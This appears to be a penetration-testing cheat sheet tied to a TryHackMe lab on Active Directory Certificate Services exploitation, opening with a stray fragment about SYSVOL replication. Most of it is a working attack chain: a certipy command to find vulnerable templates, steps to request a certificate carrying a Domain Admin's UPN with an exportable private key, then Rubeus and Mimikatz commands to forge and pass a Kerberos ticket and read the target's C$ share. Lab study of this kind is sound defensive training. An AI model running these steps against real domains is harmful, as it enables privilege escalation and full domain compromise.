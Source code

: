 Now, you should be able log in to the user on the target computer after 15 minutes or such. (the default SYSVOL policy replication period) 


#### AD Certificate Services exploitation
https://tryhackme.com/room/adcertificatetemplates
```
certipy find -u USERNAME -p PASSWORD -dc-ip DC_IP -vulnerable
```

When finding a vulnerable certificate template with these parameters:
- **Client Authentication** - The certificate can be used for Client Authentication.
- **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** - The certificate template allows us to specify the Subject Alternative Name (SAN).
- **CTPRIVATEKEY_FLAG_EXPORTABLE_KEY** - The certificate will be exportable with the private key.
- **Certificate Permissions** - We have the required permissions to use the certificate template.

Generate the certificate:
1. Click **Start**->**run**
2. Type **mmc** and hit enter
3. Click **File**->**Add/Remove Snap-in..**
4. Add the **Certificates** snap-in and make sure to select **Computer Account** and **Local computer** on the prompts.
5. Click **OK**

We will request a personal certificate:
1. Right Click on **Personal** and select **All Tasks**->**Request New Certificate...**
2. Click **Next** twice to select the AD enrollment policy.
3. You will see that we have one template that we can request, but first, we need to provide additional information.
4. Click on the **More Information** warning.
5. Change the **Subject name Type** option to **Common Name** and provide any value, since it does not matter, and click **Add**.
6. Change the **Alternative name Type** option to **User principal name**.
7. Supply the UPN of the user you want to impersonate. Usually, you'll want a DA account like `Administrator@DOMAIN_NAME`, and click **Add.**

The last step is to export our certificate with the private key:
1. Right-click on the certificate and select **All Tasks**->**Export...**
2. Click **Next**, select **Yes, export the private key**, and click **Next**.
3. Click **Next**, then set a password for the certificate since the private key cannot be exported without a password.
4. Click **Next** and select a location to store the certificate.
5. Click **Next** and finally click **Finish.**

##### User Impersonation through a Certificate
First, use Rubeus to generate a TGT:
```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:CERT_FILE_NAME.pfx /outfile:OUTPUT_FILE.kirbi /domain:DOMAIN_HOSTNAME /dc:DC_IP
```
Then, use Mimikatz to load the TGT, giving permission to the target:
```
mimikatz.exe
privilege::debug
kerberos::ptt RUBEUS_TICKET.kirbki
exit
```
To test the access, try to read a directory of the impersonated user:
```
dir \\DOMAIN_POSITION_OF_TARGET\c$\
```
